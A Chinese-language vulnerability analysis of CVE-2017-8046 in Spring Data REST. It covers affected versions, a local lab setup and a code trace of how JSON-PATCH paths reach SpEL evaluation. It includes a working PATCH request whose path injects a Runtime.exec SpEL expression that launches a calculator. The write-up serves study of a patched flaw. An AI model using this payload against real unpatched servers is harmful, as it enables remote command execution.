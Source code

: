 # 简介

Spring Data REST的目的是消除CURD的模板代码，减少程序员的刻板的重复劳动，但实际上并没有很多人使用。很少有请求直接操作数据库的场景，至少也要做权限校验等操作。而Spring Data REST允许请求直接操作数据库，中间没有任何的业务逻辑

漏洞的原因是对PATCH方法处理不当，导致攻击者能够利用JSON数据造成RCE。本质还是因为Spring的SPEL解析导致的RCE

# 影响版本

```
Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3

Spring Boot version < 2.0.0M4

Spring Data release trains < Kay-RC3
```

不受影响的版本

```
Spring Data REST 2.5.12, 2.6.7, 3.0RC3

Spring Boot 2.0.0.M4

Spring Data release train Kay-RC3
```

# 环境搭建

使用Spring官方教程：https://github.com/spring-guides/gs-accessing-data-rest.git

修改一下SpringBoot版本

![image-20210908102848978]([SpEL]CVE-2017-8046/image-20210908102848978.png)

然后删掉`src/test/java`中的文件(不删除可能会因为缺少部分依赖而报错)

运行`AccessingDataRestApplication.java`,访问8080端口

![image-20210908181117877]([SpEL]CVE-2017-8046/image-20210908181117877.png)

# 漏洞复现

使用post新建用户

```http
POST /people HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type:application/json
Content-Length: 38

{"firstName":"san","lastName":"zhang"}
```

返回:
![image-20210908104654582]([SpEL]CVE-2017-8046/image-20210908104654582.png)

成功创建用户,然后使用PATCH发送数据(注意请求头中Content-Type: application/json-patch+json)

```http
PATCH /people/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type:application/json-patch+json
Content-Length: 169

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{99, 97, 108, 99, 46, 101, 120, 101}))/lastName", "value": "hacker" }]
```

弹出计算器

# PATCH

这里准确来说是指JSON-PATCH,主要是做一些修补

原本数据为:

```json
{
  "baz": "qux",
  "foo": "bar"
}
```

发送这样的PATCH请求：

```json
[
  { "op": "replace", "path": "/baz", "value": "boo" },
  { "op": "add", "path": "/hello", "value": ["world"] },
  { "op": "remove", "path": "/foo" }
]
```

一开始的数据就会变成：

```json
{
  "baz": "boo",
  "hello": ["world"]
}
```

可以这样简单理解：op是一种操作标识，比如增删改查；path是修改的key，value是修改的value

# 漏洞分析

JSON的处理是在`org.springframework.data.rest.webmvc.config.JsonPatchHandler:apply()`

这里调用了isJsonPatchRequest()方法来判断时候是JSON-PATCH请求

![image-20210908130917405]([SpEL]CVE-2017-8046/image-20210908130917405.png)

内部会有两个判断语句

- 请求方式为PATCH
- content-type=application/json-patch+json

![image-20210908132344457]([SpEL]CVE-2017-8046/image-20210908132344457.png)

然后进入applyPatch()方法![image-20210908132505145]([SpEL]CVE-2017-8046/image-20210908132505145.png)

这里的target成员为我们最开始设定的值

![image-20210908135717869]([SpEL]CVE-2017-8046/image-20210908135717869.png)

跟进getPatchOperations(),这里传入了我们的body流。跟进convert方法

![image-20210908132723171]([SpEL]CVE-2017-8046/image-20210908132723171.png)

这里对我们的body进行解析,取出了op命令,path等,这里path为我们的payload。取出path之后没有修改path,并将其和value传入了ReplaceOperation,跟进去

![image-20210908133001318]([SpEL]CVE-2017-8046/image-20210908133001318.png)

这里进行赋值,PatchOperation是一个抽象类,因为我们的命令为replace,所以我们实例化了一个它的子类ReplaceOperation

![image-20210908133408455]([SpEL]CVE-2017-8046/image-20210908133408455.png)

依次进入

![image-20210908134102425]([SpEL]CVE-2017-8046/image-20210908134102425.png)

处理 /

![image-20210908134117116]([SpEL]CVE-2017-8046/image-20210908134117116.png)

最后this.spelExpression为这样一个SpelExpress对象

![image-20210908134336975]([SpEL]CVE-2017-8046/image-20210908134336975.png)

回到convert方法,这里添加到了ops,然后返回一个Pacth对象

![image-20210908134541413]([SpEL]CVE-2017-8046/image-20210908134541413.png)

![image-20210908134647487]([SpEL]CVE-2017-8046/image-20210908134647487.png)

回到applyPatch方法,进入apply

![image-20210908140755551]([SpEL]CVE-2017-8046/image-20210908140755551.png)

跟进setValueOnTarget

![image-20210908141408038]([SpEL]CVE-2017-8046/image-20210908141408038.png)

这里调用了setValue触发漏洞

![image-20210908141604874]([SpEL]CVE-2017-8046/image-20210908141604874.png)

# 漏洞修复

官方在evaluateValueFromTarget方法中对path参数值的路径进行合法性校验，若为非法内容则直接抛出错误。

![image-20210908143859302]([SpEL]CVE-2017-8046/image-20210908143859302.png)

# 参考

https://www.mi1k7ea.com/2019/04/05/Spring-Data-Rest%E4%B9%8Bcve-2017-8046%E5%88%86%E6%9E%90/#0x03-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90

https://xushao.ltd/post/cve-2017-8046-fen-xi/#%E7%AE%80%E4%BB%8B